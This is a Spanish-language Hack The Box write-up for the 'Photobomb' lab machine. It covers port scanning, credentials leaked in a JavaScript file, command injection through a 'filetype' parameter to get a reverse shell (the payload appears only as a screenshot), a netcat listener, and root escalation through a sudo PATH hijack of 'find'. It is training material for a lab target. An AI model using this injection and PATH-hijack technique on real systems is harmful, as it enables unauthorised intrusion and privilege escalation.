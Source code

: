 ```yaml
---
layout: single
title: Photobomb - Hack The Box
excerpt: "Photobomb es una maquina de dificultad facil donde en el propio codigo de la pagina web hay un archivo JS donde obtenemos el nombre de usuario y su contraseña para acceder a una ruta en la cual no teniamos acceso despues abusamos del parametro filetype para obtener una reverse shell y para la escalada de privilegios vamos a usar un path traverse para obtener una shell como root"
date: 2023-02-18
classes: wide
toc: true
toc_label: "Contenido"
toc_icon: "fire"
header:
  teaser: /assets/images/htb-writeup-photobomb/new.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - FileType
  - Sudoers privilege
---
```


<p align="center">
<img src="/assets/images/htb-writeup-photobomb/iconphoto.png">
</p>

## PortScan

```bash
❯ nmap -sCV -p22,80 10.10.11.182 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-18 18:08 CST
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.28s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Photobomb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.88 seconds
```

Vemos que hay un subdominio hay que agregarlo al `/etc/hosts`

```bash
❯ whatweb http://10.10.11.182
http://10.10.11.182 [302 Found] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.182], RedirectLocation[http://photobomb.htb/], Title[302 Found], nginx[1.18.0]
http://photobomb.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.182], Script, Title[Photobomb], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

```bash
❯ cat /etc/hosts | grep photobomb
10.10.11.182 photobomb.htb
```

Funciona

```
❯ ping -c 1 photobomb.htb
PING photobomb.htb (10.10.11.182) 56(84) bytes of data.
64 bytes from photobomb.htb (10.10.11.182): icmp_seq=1 ttl=63 time=1261 ms

--- photobomb.htb ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1260.996/1260.996/1260.996/0.000 ms
```

Vamos a inspeccionar la pagina web que corre en el puerto 80

![](/assets/images/htb-writeup-photobomb/Web1.png)

Vemos que si damos click en `click here` nos muestra este panel de autenticacion

![](/assets/images/htb-writeup-photobomb/Web2.png)

No tenemos credenciales por el momento asi que podemos ver el codigo fuente

![](/assets/images/htb-writeup-photobomb/Web3.png)

Vemos que hay un archivo `.js` vamos a ver que es lo que tiene

```bash
❯ curl http://photobomb.htb/photobomb.js
```
```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Nos esta dando un enlace si lo copiamos y pegamos vemos que nos autentica automaticamente y nos muestra esta web

![](/assets/images/htb-writeup-photobomb/Web4.png)

En la parte de del boton rojo vemos que podemos descargar una foto vamos a interceptar con `burpsuite` la peticion

Al interceptar nos muestra esto

![](/assets/images/htb-writeup-photobomb/inter.png)

En la parte de `filetype` vemos que hay es donde esta definiendo la extencion del archivo que queremos asi que podemos tratar de concatenar un comando y directamente vamos a enviarnos una reverse shell 

![](/assets/images/htb-writeup-photobomb/code.png)

<https://www.revshells.com/>

Una vez puesto hay vamos a ponernos en escucha en el puerto `443` para recibir la `shell`

![](/assets/images/htb-writeup-photobomb/listo.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ahora damos a `forward` para recibir la shell

![](/assets/images/htb-writeup-photobomb/forward.png)

Funciona

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.113] from (UNKNOWN) [10.10.11.182] 45146
bash: cannot set terminal process group (715): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 
```

Para poder hacer `ctrl+c` podemos hacer

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
ENTER
```

Podemos ver la primer flag

```bash
wizard@photobomb:~$ cat user.txt 
857825188e86ff89aee311f10870e0ec
wizard@photobomb:~$ 
```

Nada interesante

```bash
wizard@photobomb:/$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/umount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
wizard@photobomb:/$ 
```

## Escalada de Privilegios

Si hacemos un `sudo -l` podemos ejecutar este `script` y setear variables de enterno

```bash
wizard@photobomb:/$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:/$ 
```

Vamos a ver el script y esta usuando el comando `find` que encontramos en la ultima linea lo que esta haciendo es que

```
Esta buscando todos los archivos con extensión ".jpg" en el directorio "source_images" y sus subdirectorios, y cambia el propietario y grupo de cada archivo encontrado a "root:root".
```

```bash
wizard@photobomb:/$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:/$ 
```

`Tenemos la capacidad de modificar variables como el 'path' para utilizar un comando 'find' personalizado. Además, si ejecutamos el comando 'find' con privilegios de administrador, el 'find' se ejecutará con permisos de root.`


```bash
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ chmod +x find
```

Ahora somos root

```
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# whoami
root
root@photobomb:/home/wizard/photobomb# cd /root
root@photobomb:~# cat root.txt 
bc2ba4ec7d130530e08a60ce6b034fde
root@photobomb:~# 
```

